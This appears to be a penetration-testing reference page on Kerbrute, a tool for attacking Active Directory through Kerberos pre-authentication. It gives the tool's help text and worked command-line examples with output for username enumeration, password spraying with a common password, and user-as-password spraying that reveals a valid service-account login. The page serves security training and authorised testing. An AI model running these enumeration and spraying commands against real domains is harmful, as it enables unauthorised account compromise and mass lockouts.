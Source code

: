 ```yaml
---
title : "Kerbrute"
# pre : ' '
description : "This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication."
date : 2021-02-15T13:24:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerbrute

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.

A list of common used AD usernames can be downloaded [here](https://github.com/crypt0rr/common-ad-usernames).

### Installation

Download latest library from [Github.com](https://github.com/ropnop/kerbrute/releases/latest)

### Usage

```plain
kerbrute [command]
```

### Flags

```plain
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### Examples

#### Validate usernames against domain

After you succesfully enumerated [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) you can try ASREPRoasting with [Impacket GetNPUsers.py]({{< ref "impacket" >}})

```plain
$ ./kerbrute userenum --dc 10.10.10.10 -d offsec.nl usersnames.txt

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

2021/02/15 13:22:24 >  Using KDC(s):
2021/02/15 13:22:24 >      10.10.10.10:88

2021/02/15 13:22:24 >  [+] VALID USERNAME:     john@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     jane@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     johndo-adm@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     janedo-adm@offsec.nl
2021/02/15 13:22:24 >  Done! Tested 21 usernames (4 valid) in 0.017 seconds
```

#### Password spray

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames, filter them and use as input for the spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt Welkom01!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop
```

#### Username as password

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames and use them as input for the 'user-as-pass' spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt --user-as-pass

   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/   \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/17/22 - Ronnie Flathers @ropnop

2022/01/17 15:35:28 >  Using KDC(s):
2022/01/17 15:35:28 >   10.10.10.10:88

2022/01/17 15:35:31 >  [+] VALID LOGIN:  svc_dcsync@offsec.nl:svc_dcsync
2022/01/17 15:35:38 >  Done! Tested 4393 logins (1 successes) in 9.460 seconds
```

### URL list

* [Github.com - kerbrute](https://github.com/ropnop/kerbrute)
